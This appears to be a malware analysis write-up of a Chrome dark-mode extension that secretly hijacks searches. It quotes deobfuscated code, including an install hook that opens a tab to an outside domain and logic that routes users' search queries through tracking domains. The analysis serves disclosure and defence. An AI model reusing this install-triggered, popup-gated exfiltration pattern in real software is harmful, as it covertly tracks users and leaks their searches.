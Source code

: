 # Code Analysis
After dissecting the Obfuscated javascript code we learn the following: 
apart from using the setLight and stopLight messages between the background.js and the content.js to switch between the background color to either black or original, the extension can do a few extra things which all depend on one API call, the “chrome.runtime.onInstalled”:
```javascript
chrome.runtime.onInstalled.addListener(function (e) {
	if("install" === e.reason)
		chrome.windows.getAll({populate: !0}, (tabs) => {
			var t;
			for (let j= 0; j <= tabs.length - 1; j++)
				tabs[j].type.includes(cobal("peachpuff", 5, 7)) &&
				(eu(), setTimeout(function () {
						darkerput(1800);
						chrome.tabs.create({url: "https://hjk7.xyz/ty?id=" + exid.split("").reverse().join("")})
						chrome.windows.remove(tabs[j].id, function () {
						});
					}, 1e3)
				)
		}), fetch(ty);
});
```
This will trigger the full capability of this extension. To better understand this, let's break down the call into a few key points:

1.	onInstalled.addListener sets up an event listener that triggers when the extension is either installed or updated, the if(“install” == e.reason) means the following will trigger only for when the extension is first installed.

2.	Chrome.windows.getAll - This line retrieves data from all open windows and their tabs.

3.	tabs[j].type.includes(cobal("peachpuff", 5, 7)) && - this condition will determine if the extension will run maliciously or not, since it has a &&, for the next few functions to run, this condition needs to be met.

  	cobal() is a string manipulation function, which with the provided string, it comes out as ‘pu’, tabs.type is the type of tab you have open, it can only be a few options: normal, popup, panel, app and devtools. 

**This means that for the extension to reveal its true behavior, a popup window needs to be open during the installation process.** 

# No Popup
When no popup windows are present, the extension will skip over the eu(), darkerput() and the tab creation and removal seen above. Because of that, the “initial” value which is stored inside the chrome.storage will not be defined as “default”:
![image](https://github.com/user-attachments/assets/a0ec0ef4-054e-45f6-bae8-8d3f5857ff98)

This means the variable “i” will remain undefined since “initial” != “default”:
```javascript
chrome.storage.local.get(["initalcolor"], function (s) {
	if (s.color === "default")
		i = true
});
```
leading to skipping the entire 370 lines of code after this “if” condition which is un-met:
```javascript
if (i == !0 && s == !1 && "loading" === tab.status && !colchk(cobal("Bhaclebstoc blue", 5, 10)))
```
This part of the code after the "if" condition, is in charge of the malicious activities it can preform, without it the extension performs like any other simple dark theme extension.

# With Popup
If one of the tabs is considered a popup, the rest of the code under the runtime.onInstalled runs: 

•	The function eu() is triggered, setting i = true, which will allow the code within the chrome.tabs.onUpdated.addListener (containing the if condition above)  
to be executed later.

•	A new tab is opened with the URL contructed by reversing the ‘exid’ meaning: 
```https://hjk7.xyz/ty?id=mhfalkcmmkajgecgcnaceipcoenh```

•	The tab containing the popup will close

•	The fetch command will trigger a request being made for an external domain.

From this point the following behavior can be seen when using a search engine: 

1.	Typing something in the search engine like google will trigger the chrome.tabs.onUpdated:
```javascript
chrome.tabs.onUpdated.addListener(function (tabid, status, tab) {
	tu = tab.url, colchk(exid) && !colchk("errors") && colos(tabid)
	function rgbConverthsl({ h, s, l, a = 1 }) {
		if (s === 0) {
			const [r, b, g] = [l, l, l].map((x) => Math.round(x * 255));
			return { r, g, b, a };
		}
```
2. 	The URL is checked if it contains the ‘exid’ and ‘errors’ strings, if it contains the ‘exid’ and not the ‘errors’, the tab will close (using the colos() function).

3.	It passes through the “if” condition we’ve talked about earlier (since “i” is now defined)
 

4.	The payload containing the search query is saved inside the “c” variable

5.	A new tab is opened and redirected to ```https://stttbu.xyz/ssc/pda?p={added payload}```
essentially meaning it uses a GET request to transfer my search query to an external domain

6.	We are then being redirected to this URL - ```https://www.bettertab.xyz/searchapi/redirect.aspx?q={added payload}&channel=2188
&pid=bbtab```

7.	To then being redirected a final time to bing.com - ```https://www.bing.com/search?q={added payload}```

8.	Once the process is finished, the original tab with the initial query for google.com is closed. (the entire process takes about 1.5-2 seconds)

9.	Before completing its process, it also creates an array using the “c” variable to store all the payloads we've inputted (essentially tracking my activity). Here’s an example after numerous searches:

![image](https://github.com/user-attachments/assets/33d8ab14-7822-4cef-8d81-9e85b0edfec3)

10. Last thing to mention besides the different delays it’s invoking, the extension sends the setLight message:  setTimeout(()=>chrome.tabs.sendMessage(e.id, {setLight: 1}), 5e3).
Inside the content.js it triggers the continueSetLight function: 
```javascript
function darkSet(request, sender, sendResponse) {
	if(request.setLight)
		continueSetLight(request, sender, sendResponse);
	if (request.stoplight) {
```
```javascript
function continueSetLight(request, sender, sendResponse) {
	document.getElementById('bg') && (document.getElementById('sb_feedback').style.backgroundColor = 'white')
	document.getElementById('bg') && (document.getElementById('bg').style.backgroundColor = 'white')
	document.getElementById('sb') && (document.getElementById('sb').style.backgroundColor = 'white')
	document.getElementById('fg') && (document.getElementById('fg').style.backgroundColor = 'white')
	document.getElementById('sb_feedback') && (document.getElementById('sb_feedback').style.display = 'none')
}
```
Besides enabling "Light Mode" and changing the background color of several DOM elements to white, it also hides the 'sb_feedback' element, which conceals a button on the bing.com page:

![image](https://github.com/user-attachments/assets/01912aa4-efb4-4315-850f-9802b074d39a)

![image](https://github.com/user-attachments/assets/e8a44342-3019-490d-9f3c-b30ed473d90b)

![image](https://github.com/user-attachments/assets/6b12edd3-3b24-4299-a587-9b314f9b612f)


# Example Process

1. ![image](https://github.com/user-attachments/assets/b9c59b22-94b9-4f7e-b92f-6d7ec25bbfca) searching something on Google
2. ![image](https://github.com/user-attachments/assets/90924973-1277-4644-9fe9-2d23647a99a8) new tab creation
3. ![image](https://github.com/user-attachments/assets/0c1432a5-e9df-43c4-8a55-4324d78031a5) Redirection 1
4. ![image](https://github.com/user-attachments/assets/5fcb1d71-f9e3-4f8d-8c65-fa1a32d72f4c) Redirection 2

When applying a search query the first domain requested is ```sttbu.xyz```:
![image](https://github.com/user-attachments/assets/195256e6-f1a1-46cc-b2c9-67b547e2f80f)

We can observe the payload (in this case “hello”) that I entered in the Google.com search bar being uploaded and transferred to this external domain through a GET parameter. Additionally, several types of cookies are being included, which are probably used for user profiling and session management and affiliate ID’s.

The second domain which im redirected to is ```www.bettertab.xyz```: 
Again we see my search query being transferred and some more cookie keys added: 
![image](https://github.com/user-attachments/assets/7137a310-8791-4788-bc25-f40a85a8bbdb)













